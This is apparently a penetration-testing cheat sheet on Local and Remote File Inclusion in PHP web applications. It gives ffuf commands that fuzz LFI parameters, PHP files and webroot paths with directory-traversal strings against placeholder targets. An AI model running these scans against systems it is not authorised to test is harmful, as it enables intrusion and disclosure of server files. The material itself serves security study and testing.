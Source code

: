 # Description

Local File Inclusion (LFI) and Remote File Inclusion (RFI) are vulnerabilities that are often found to affect web applications that rely on a scripting run time. It allows someone to read/execute files on the server by exploiting file inclusion mechanisms.

>A File Inclusion Vulnerability refers to a type of security vulnerability in web applications, particularly prevalent in applications developed in PHP, where an attacker can include a file, usually exploiting a lack of proper input/output sanitization. This vulnerability can lead to a range of malicious activities, including code execution, data theft, and website defacement.

# Local File Inclusion (LFI)

## Scanning for LFI

-   URL LFI **Example**:

```bash
http://<target_url>/file.php?recurse=<file_name>
```

-   **Normal Fuzzing**:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

-   **Fuzz `GET` Parameters**:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

-   **Fuzz PHP Files**:

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

-   **Fuzz Webroot**: to fuzz for index.php use [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [wordlist for windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt), or this [general wordlist alternative](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt); consider that depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our index.php afterwords.

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

-   **Fuzz Server Logs and Configs**: we can use the same wordlists as before.
